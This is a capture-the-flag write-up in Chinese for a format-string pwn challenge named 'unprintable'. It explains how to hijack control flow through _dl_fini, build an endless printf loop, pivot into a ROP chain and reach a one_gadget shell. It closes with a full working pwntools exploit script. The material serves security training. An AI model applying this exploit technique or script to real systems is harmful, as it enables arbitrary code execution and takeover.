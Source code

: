 [中文](./README_zh.md) [English](./README.md)

[附件](./attachment.zip)

这题其实是pwnable tw上printable一道题的变种

理论上可以不用打印栈地址出来，只要预测栈后三位就可以了

首先是劫持控制流，栈上面残留了一个ld.so的地址

在exit的时候会执行dl_fini函数，里面有一段比较有趣的片段

```
<_dl_fini+819>:	call   QWORD PTR [r12+rdx*8]
```

rdx固定为0，r12来自下面的代码片段

```
<_dl_fini+777>:	mov    r12,QWORD PTR [rax+0x8]
<_dl_fini+781>:	mov    rax,QWORD PTR [rbx+0x120]
<_dl_fini+788>:	add    r12,QWORD PTR [rbx]
```

rbx指向的刚好就是栈上残留的ld.so的地址，因此我们可以控制\[rbx]的值

r12默认指向的是fini_array，通过控制rbx，我们可以让r12指向bss，也就是我们可以劫持控制流了

但是劫持控制流之后呢？

我们可以再跳回main函数

```
.text:00000000004007A3                 mov     edx, 1000h      ; nbytes
.text:00000000004007A8                 mov     esi, offset buf ; buf
.text:00000000004007AD                 mov     edi, 0          ; fd
.text:00000000004007B2                 call    read
```

再次读内容到bss段，再printf出来

如果比较细心的话，可以发现这个时候栈上第23个参数刚好指向的是printf的返回地址，也就是我们可以在printf之后再跳回0x4007A3，也就是能无限循环printf

有了无限循环printf，那么就和平常的有循环的printf一样做了

这个时候我们就有了任意写，可以写栈上printf返回地址后面的内容，写一个bss段的地址，再配合 pop rsp这个gadget就可以进行rop了

这里还有一个小坑，就是printf超过0x2000个字节之后用 %hn 写不了值，所以要爆破到适合的栈地址，不过概率也挺高的

有了rop之后呢？我们还是leak不了，这个时候可以借助一个神奇的gadget

```
.text:00000000004006E8                 adc     [rbp+48h], edx
```
rbp和edx我们都是可以控制的，刚好bss段中有stdin,stdout,sterr这几个值，指向的是libc

所以我们可以利用这个gadget将stderr改成one_gadget，再利用__libc_csu_init中的
```
call    qword ptr [r12+rbx*8]
```
就可以get shell了

get shell之后就挺简单了，利用重定向拿flag

```
cat flag >&0
```

## exp
```
from pwn import *

debug=1

context.log_level='debug'

if debug:
    p=process('./unprintable')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
else:
    p=remote('',)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

def wait(x=True):
    #raw_input()
    sleep(0.3)

def write_addr(addr,sz=6):
    t = (stack+0x40)%0x100
    v = p64(addr)
    for i in range(sz):
        if t+i != 0:
            se('%'+str(t+i)+'c%18$hhn%'+str(1955-t-i)+'c%23$hn\x00')
        else:
            se('%18$hhn%1955c%23$hn')
        wait()
        tv = ord(v[i])
        if tv != 0:
            se('%'+str(tv)+'c%13$hhn%'+str(1955-tv)+'c%23$hn\x00')
        else:
            se('%13$hhn%1955c%23$hn')
        wait()

def write_value(addr,value,addr_sz=6):
    write_addr(addr,addr_sz)
    se('%'+str(ord(value[0]))+'c%14$hhn%'+str(1955-ord(value[0]))+'c%23$hn\x00')
    wait()
    ta = p64(addr)[1]
    for i in range(1,len(value)):
        tmp = p64(addr+i)[1]
        if ta!=tmp:
            write_addr(addr+i,2)
            ta = tmp
        else:
            write_addr(addr+i,1)
        if ord(value[i]) !=0:
            se('%'+str(ord(value[i]))+'c%14$hhn%'+str(1955-ord(value[i]))+'c%23$hn\x00')
        else:
            se('%14$hhn%1955c%23$hn\x00')
        wait()

buf = 0x601060+0x100+4

ru('This is your gift: ')
stack = int(ru('\n'),16)-0x118

if stack%0x10000 > 0x2000:
    p.close()
    exit()

ret_addr = stack - 0xe8

se('%'+str(buf-0x600DD8)+'c%26$hn'.ljust(0x100,'\x00')+p64(0x4007A3))
wait()

tmp = (stack+0x40)%0x10000

se('%c'*16+'%'+str(tmp-16)+'c%hn%'+str((163-(tmp%0x100)+0x100)%0x100)+'c%23$hhn\x00')

wait()

if debug:
    gdb.attach(p)

raw_input()

rop = 0x601060+0x200

write_value(stack,p64(rop)[:6])


context.arch = 'amd64'

prbp = 0x400690
prsp = 0x40082d
adc = 0x4006E8
arsp = 0x0400848
prbx = 0x40082A 
call = 0x400810 
stderr = 0x601040 

payload = p64(arsp)*3
payload += flat(prbx,0,stderr-0x48,rop,0xFFD2BC07,0,0,call)
payload += flat(adc,0,prbx,0,0,stderr,0,0,0,0x400819)

se(('%'+str(0x82d)+'c%23$hn').ljust(0x200,'\0')+payload)

print(hex(stack))

p.interactive()
```